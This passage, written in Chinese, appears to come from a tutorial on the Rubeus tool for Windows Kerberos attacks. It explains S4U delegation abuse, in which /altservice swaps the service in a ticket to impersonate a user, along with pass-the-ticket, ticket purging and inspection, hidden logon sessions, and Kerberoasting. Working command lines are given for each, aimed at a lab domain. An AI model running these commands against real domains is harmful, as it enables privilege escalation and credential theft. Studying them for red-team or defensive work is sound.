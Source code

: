 **/altservice** 参数利用了 Alberto Solino‘s 的伟大发现，即 服务名称在KRB-CRED文件中不被保护 ，只有服务器名称才被保护。这就允许我们在生成的KRB-CRED（.kirbi）文件中替换我们想要的任何服务名称

这里原本只委托了ldap服务，使用/altservice参数改成cifs服务，仿冒用户```dfm.a```的权限

```
Rubeus.exe s4u /ticket:C:TempTicketspatsy.kirbi /impersonateuser:dfm.a /msdsspn:ldap/primary.testlab.local /altservice:cifs /ptt
```

# ptt
```
Rubeus.exe ptt /ticket:doIFmj...(snip)...
```


# purge

清除所有登录会话

```
Rubeus.exe purge
```


# describe

想了解一个特定的 .kirbi Kerberos 票据的详细信息。describe 操作使用 /ticket:X 参数（TGT或服务票据）

```
Rubeus.exe describe /ticket:doIFmjCC...(snip)...
```

# createnetonly
createnetonly 操作使用 CreateProcessWithLogonW() API 创建一个新的隐藏（除非指定了 /show 参数）进程，其SECURITY_LOGON_TYPE 是9（新建票据），相当于runas /netonly操作，返回这个进程的 ID 和 LUID （登录会话ID）。然后，就可以使用 ptt /luid:X 参数将指定的 Kerberos 票据应用于此进程，前提是已提升了权限。这样就可以防止清除当前登录会话的现有TGT

```
Rubeus.exe createnetonly /program:"C:Windows/System32/cmd.exe"
```

# Kerberoast

kerberoast 操作实现了 SharpRoast 项目的功能

/spn:X 参数可针对指定的SPN 进行操作，/user:X 参数可针对指定的用户进行操作，/ou:X 参数可针对指定的 OU 中的用户进行操作。如果要使用备用域凭据进行 kerberoasing，可以使用 /creduser:DOMAIN.FQDNUSER /credpassword:PASSWORD 参数来指定

```
>Rubeus.exe kerberoast /ou:OU=TestingOU,DC=testlab,DC=local
```


